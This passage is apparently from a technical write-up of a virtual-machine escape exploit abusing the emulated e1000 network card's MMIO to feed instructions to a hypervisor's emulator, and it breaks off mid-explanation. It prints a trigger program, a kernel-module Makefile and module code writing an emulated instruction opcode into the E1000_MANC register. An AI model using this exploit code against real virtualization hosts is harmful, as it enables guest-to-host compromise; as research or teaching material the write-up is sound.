 
A user space program for triggering the attack:

```c
#include <unistd.h>
#include <stdlib.h>

char buf[0x100];
int main(){
    system("insmod test.ko");
    int fd = open("/dev/pwn",2);
    read(fd,buf,1); // trigger drv_read
}
```
{: file='exp.c'}

Makefile:

```Makefile
obj-m += test.o 
CFLAGS_test.o := -masm=intel -w 
PWD := $(CURDIR) 
 
all: 
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
    gcc exp.c -w --static -o exp	
 
clean: 
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

Now for the exploit. First, we use `ioremap` to map the MMIO of e1000 to the memory, and write our instruction ( we'll use `iemOp_ReadTable` in this case ) to the `E1000_MANC` register:

```c
#define E1000_MMIO_BASE 0xf0000000
#define RT 0x0000250f  // iemOp_ReadTable
#define WT 0x0000270f  // iemOp_WriteTable


static ssize_t drv_read(struct file *file, char __user *buf, size_t count, loff_t *ppos) {
    
    /* We put our exploit here */
    
    printk(KERN_INFO "In drv_read\n");

    /* E1000_MANC: E1000_MMIO_BASE + 0x5820 */
    int* inst = ioremap(E1000_MMIO_BASE + 0x5000, 0x1000);
    inst[0x820/4] = RT; // iemOp_ReadTable
 
    return 0;
}
```

Now it's the tricky part. Before we jump to MMIO and execute our instruction, we'll need to convince the kernel that the memory address we're jumping is a valid kernel code memory. Here's how we do it:
